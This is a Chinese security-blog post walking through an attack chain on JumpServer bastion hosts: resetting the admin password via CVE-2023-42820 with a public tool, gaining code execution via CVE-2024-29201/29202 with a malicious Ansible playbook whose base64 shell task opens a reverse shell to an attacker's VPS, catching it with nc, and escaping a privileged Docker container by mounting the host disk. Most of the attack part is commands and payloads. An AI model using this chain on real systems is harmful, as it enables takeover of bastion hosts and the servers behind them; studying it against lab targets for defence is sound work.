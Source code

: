> **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzk0MzYyMjEzMQ==&mid=2247489827&idx=1&sn=264424757492ed5ebf08dc614338f473

#  实操文档分享--续《内网攻防：2025攻防开始前夕，学会如何突破Jumpserver堡垒机》  
AegisGuard  AegisGuard   2025-07-01 01:00  
  
免责声明  
  
合法使用原则：文中提及的技术、工具或案例，仅用于授权范围内的安全测试、防御研究或合规技术分享，未经授权的网络攻击、数据窃取等行为均属违法，需承担法律责任。  
  
风险自担与责任豁免：文章内容基于公开信息整理，不保证技术的准确性、完整性或适用性。读者需自行评估技术应用风险，若因不当使用导致任何法律后果或损失，均由使用者自行承担，与本公众号及作者无关。  
  
法律管辖与提示：本公众号坚决拥护相关法律法规，反对任何危害网络安全的行为，读者需严格遵守法律法规。  
  
实操视频：[《内网攻防：2025攻防开始前夕，学会如何突破Jumpserver堡垒机》](https://mp.weixin.qq.com/s?__biz=Mzk0MzYyMjEzMQ==&mid=2247489766&idx=1&sn=00ea42b7a9e3d0612d29d9a618ca4d67&scene=21#wechat_redirect)  
  
# 一、CVE-2023-42820  
## 漏洞介绍  
- CVE-2023-42820是针对JumpServer堡垒机的一个高危安全漏洞，涉及其密码重置机制中的伪随机数生成器种子泄露问题，攻击者可利用该漏洞，在未登录的情况下，利用API造成随机数种子泄露，进而重放随机生成的验证码，进而实现对任意用户账户密码的重置，最终登录  
  
- 受影响版本：
```
v2.x（版本2.24至2.28.20）和v3.x（版本3.0.0至3.6.4）
```

  
  
- 安全版本：
```
v2 >= v2.28.20或v3 >= v3.7.1
```

  
  
- 靶机下载：  
https://github.com/vulhub/vulhub/tree/master/jumpserver/CVE-2023-42820  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/t88ugf2jgYC031f3rcVGKIUVUYwy8AoIqZjPlpcpXO9ickialibWBsyyicicMicbOo6vLFM2HgPguZBdfXZu3l5NcDtg/640?wx_fmt=other&from=appmsg "")  
## 漏洞利用  
- 工具下载地址：  
https://github.com/Framework-vulnerability-tool/JumpServer  
  
- 使用方法（修改admin用户的密码）  
  

```
python -m pip install -r requirements.txt
python blackjump.py reset https://vulerability
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoINQyILLnDT4l3dnGH8PBFXVenoial7xBTOjRKsHRiaezgy13I2uDgxMwA/640?wx_fmt=png&from=appmsg "")  
- 使用新密码进行登录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoIy1JbNcibFVZzKu5eiclG4JibpgIiblU1v6PicN3P5ibgtM1zOfk7W4vXgTXg/640?wx_fmt=png&from=appmsg "")  
# 二、CVE-2024-29201&&CVE-2024-29202  
## 漏洞介绍  
- CVE-2024-29201（远程代码执行漏洞）：由于JumpServer中的Ansible模块未进行完整的输入验证，具有低权限账户的攻击者可以绕过JumpServer的Ansible中的验证机制，在Celery容器中执行任意代码，并从主机中窃取敏感信息或操纵数据库  
  
- CVE-2024-29202（Jinin2 模板注入漏洞）：经过身份验证的攻击者可以通过构建恶意playbook模板，利用Ansible中的Jinja2模板引擎在Celery容器中执行任意代码，并从主机中窃取敏感信息或操纵数据库  
  
- 影响版本：
```
v3.0.0 <= JumpServer <= v3.10.6
```

  
  
## 漏洞利用  
- 通过CVE-2023-42820、信息泄露、弱口令等等方式通过管理员账号后台以后，可以创建一个普通账号  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoIrTEjzJxzdcgtm73sUjYa2NsiasLVykv5niaicAjt3fyZxcTM7aVNFqdrA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoIm9Jdfls8FRFofR9GjtkCgumaE7ov051pBibC815kMLRgNp6PLKLZyrg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoIyxrrMHtgLAKLVK9zbXIA8t9Sqib8hE5MLwb1XwH4ySKtbejSjOW8Aqw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoI55f7ibp3weBJs2ltTNlOgc7TicKxj2VC0TTCNfibWq34mTvbtmLAk52Mg/640?wx_fmt=png&from=appmsg "")  
- 接着使用新建的普通账号登录堡垒机（有可能会要求更新信息）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoI6NLlfSf5SgjicnI06WJ8FctPX8CPukSQaFqMe61WssAE0lYkc15LBSw/640?wx_fmt=png&from=appmsg "")  
- 在模板管理处创建一个Playbook  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoI78ssdppqYiaw1oFaKVBncrlObbVicVu7Tq6ibZBfz1C4X28iaiatb6kQkQA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoIFEP1IZyALpgRbiaU6lUibtdpEWPpBd7QdI5HyA91uYVe1oHT9zXxJtnw/640?wx_fmt=png&from=appmsg "")  
- 创建完成后，往Playbook管理中添加POC，用于反弹shell到攻击者的VPS  
  

```
[{
     &#34;name&#34;: &#34;RCE playbook&#34;,
     &#34;hosts&#34;: &#34;all&#34;,
     &#34;tasks&#34;: [
       {
         &#34;name&#34;: &#34;this runs in Celery container&#34;,
         &#34;shell&#34;: &#34;echo YmFzaCAtaxxxxxxxxxxxxxxxC80MyxxxxxxxxOTEuMTg4Lzg4ODggMD4mMQ==|base64 -d|bash -i&#34;,
         &#34;\u0064elegate_to&#34;: &#34;localhost&#34;
} ],
     &#34;vars&#34;: {
     &#34;ansible_\u0063onnection&#34;: &#34;local&#34;
     }
}]
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoI7vdEoALibavTKojGwhUMqicz91eiaicib5WpYutcEja4wJ1Bic9jrPJurRQg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoIZ5gn1pYqmDTvyUa8tVPzM5ClZpQerLg6Mib28juCGF8I2IWvTNNO3gQ/640?wx_fmt=png&from=appmsg "")  
- 在作业管理处创建一个Playbook作业  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoIxDx7068b3wwP69D67uIQBhV24iaeCic83VZRnKz6UzwP6hpEvGaPmxHw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoIJYibsJJjJ6bALGjfCqysj4M2uTEB06icUz0La5lEMtCLgbicnWkt4ZSrg/640?wx_fmt=png&from=appmsg "")  
- 此时在VPS上使用nc进行监听  
  

```
nc -vlnp 8888
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoI14Vqib48H5NrUQWGDsf9Ytf0Wd7xWB1tt2HNxSnnibRicbX8rgUVlxEicw/640?wx_fmt=png&from=appmsg "")  
- 接着在作业管理中，运行刚刚新建的作业  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoIpwmk2MTYBOlfS0cNa1A3eUIiaiacO6R0mpVUzIAPQiateaWE9hGa30yiaw/640?wx_fmt=png&from=appmsg "")  
- 反弹shell成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoIFPftFtb9oeWhUhfJJVu9KNHXTycZjm6QhIsMvsYxuVZyyyVUlt4NpQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoICZ2uS6VCcNvRYEhtJVLMGz4pP35QU8oOOA1TsqXUd2ZVOmqHBT7LJw/640?wx_fmt=png&from=appmsg "")  
## 三、docker逃逸（特权模式）  
- 有些JumpServer通过docker来部署，所以反弹shell成功以后，就需要判断一下当前是否在docker环境中  
  

```
cat /proc/1/cgroup
ls -al / | grep &#34;docker&#34;
mount | grep '/ type'
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoIwXMRrgIGvGmucNbUQJzNPZGOoiae6aIVuwglgxicPCBfTia9pu3f5uORA/640?wx_fmt=png&from=appmsg "")  
- 当确定当前是docker环境以后，就需要判断当前是否为特权模式，如果是特权模式启动的话CapEff对应的掩码值应该为
```
0000003fffffffff
```

  
或者是
```
0000001fffffffff
```

  
  

```
cat /proc/self/status | grep CapEff
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoIs9WEvnOo6JmJ8AmfDWHjJxkZFlHATV8N5IYFBcMkKqAkDibJbhVBd6g/640?wx_fmt=png&from=appmsg "")  
- 查看磁盘分区，查看可以挂载的分区  
  

```
lsblk
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoIticNQJfunquBPYuMr1Q6lowjDKd0xhcozvIibtgmicbAWziaetfz4Tt2bg/640?wx_fmt=png&from=appmsg "")  
- 特权逃逸，创建目录，并将分区挂载到目录中  
  

```
mkdir /test && mount /dev/sda5 /test
cd /test
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoIDSXnYqQ0QhmW3gabnz7nZ4BlAEOzlDxChC3KXaeyQdLdzFDNZMKIVA/640?wx_fmt=png&from=appmsg "")  
- 逃逸成功，成功将宿主机内容挂载到test目录下，并且在宿主机上执行命令  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYC031f3rcVGKIUVUYwy8AoIo7arVSPkxCJnF41nbdWibD73KU7DhaV4Vl71UiaDCicrKbMYuBO9AroCw/640?wx_fmt=png&from=appmsg "")  
  
  
